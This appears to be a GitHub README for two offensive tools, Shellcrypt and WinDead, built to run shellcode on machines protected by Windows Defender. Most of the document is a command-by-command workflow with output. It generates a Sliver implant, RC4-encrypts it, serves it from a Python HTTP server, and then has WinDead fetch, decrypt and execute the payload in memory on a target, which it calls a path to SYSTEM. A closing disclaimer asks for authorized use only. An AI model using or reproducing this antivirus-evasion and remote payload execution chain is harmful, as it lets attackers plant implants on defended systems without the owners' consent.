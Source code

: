 <div align="center">
  <h1>Windead & Shellcrypt</h1>
</div>

<p align="center">
  <img src="Windead & Shellcrypt.png" alt="logo" width="50%">
</p>

> [!CAUTION]
> **Windead** & **ShellCrypt** are like Tom & Jerry, they are inseparable.


# What are they good for ?

The main objective of these two tools is to be able to execute shellcode on machines protected by Windows Defender. 

- **Shellcrypt** is Jerry, it's the first step used to encrypt the shellcode using rc4 algorithm. You give it a file containing the raw shellcode, it gives you a nice gift, a file containing the encrypted shellcode.
- **WinDead** is Tom, it's the main character but without **Shellcrypt** it can't do anything. **WinDead** takes your encrypted shellcode, hosted on a remote web server, decrypt it and execute it.

# Usage

1 - You need to create a file containing your shellcode in raw format. It can be anything like a msfvenom output or a sliver session. For this example, let's take a sliver session :
```bash
sliver > generate --http 192.168.1.51 -f shellcode --os windows --name session

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 15s
[*] Encoding shellcode with shikata ga nai ... success!
[*] Implant saved to /opt/sliver/session.bin
```
\
2 - Once the file is created, you need to encrypt it using **Shellcrypt** :
```powershell
Shellcrypt.exe session.bin session.enc

[i] Shellcode retrieved with success !
[i] File created with success !
[i] The key (Keep it somewhere) : fb29b4fdb3e278542d0ef5c7d21c1c4153975c83609b6e281a67aee71e38b809
```
- `calc.bin` is the file containing the shellcode
- `calc.enc` is the name of the file you want to create, containing the encrypted shellcode

\
3 - Then, you have to host the file on a http web server, you can use the http.server module from python3 :
```bash
sudo python3 -m http.server 443
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
```

\
4 - Finally, you can now use **WinDead** to execute the shellcode on the target machine :
```powershell
Windead.exe 192.168.1.46 443 session.enc fb29b4fdb3e278542d0ef5c7d21c1c4153975c83609b6e281a67aee71e38b809

[i] Payload successfully retrieved! Size: 17353014 bytes
[i] Buffer allocated with success !
[i] Memory protection changed with success !
[i] Your shellcode has been executed with success ! Now, time to become SYSTEM =)
```
- `192.168.1.46` is the ip of the remote web server
- `443` is the port of the remote web server
- `session.enc` is the file containing the encrypted shellcode
- `fb29b4....` is the key that was printed out by **ShellCrypt**

# DISCLAIMER

This tool is intended for educational purposes and authorized security testing only. I am not responsible for any misuse or damage caused by this tool. Please, always obtain written permission from the owner of the system or network before using this tool.
